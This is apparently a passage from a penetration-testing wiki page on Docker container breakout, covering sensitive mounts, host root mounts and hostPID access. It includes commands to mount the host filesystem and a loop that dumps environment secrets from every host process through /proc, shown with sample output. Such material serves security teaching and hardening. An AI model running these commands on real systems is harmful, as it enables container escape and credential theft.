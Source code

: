 ```bash
```

#### Privileged Escape Abusing Sensitive Mounts

There are several files that might mounted that give **information about the underlaying host**. Some of them may even indicate **something to be executed by the host when something happens** (which will allow a attacker to escape from the container).\
The abuse of these files may allow that:

* release\_agent (already covered before)
* [binfmt\_misc](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-fs-binfmt\_misc)
* [core\_pattern](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-kernel-core\_pattern)
* [uevent\_helper](docker-breakout-privilege-escalation/sensitive-mounts.md#sys-kernel-uevent\_helper)
* [modprobe](docker-breakout-privilege-escalation/sensitive-mounts.md#proc-sys-kernel-modprobe)

However, you can find **other sensitive files** to check for in this page:

{% content-ref url="docker-breakout-privilege-escalation/sensitive-mounts.md" %}
[sensitive-mounts.md](docker-breakout-privilege-escalation/sensitive-mounts.md)
{% endcontent-ref %}

### Arbitrary Mounts

In several occasions you will find that the **container has some volume mounted from the host**. If this volume wasn’t correctly configured you might be able to **access/modify sensitive data**: Read secrets, change ssh authorized\_keys…

```bash
docker run --rm -it -v /:/host ubuntu bash
```

### hostPID

If you can access the processes of the host you are going to be able to access a lot of sensitive information stored in those processes. Run test lab:

```
docker run --rm -it --pid=host ubuntu bash
```

For example, you will be able to list the processes using something like `ps auxn` and search for sensitive details in the commands.

Then, as you can **access each process of the host in /proc/ you can just steal their env secrets** running:

```bash
for e in `ls /proc/*/environ`; do echo; echo $e; xargs -0 -L1 -a $e; done
/proc/988058/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=argocd-server-69678b4f65-6mmql
USER=abrgocd
...
```
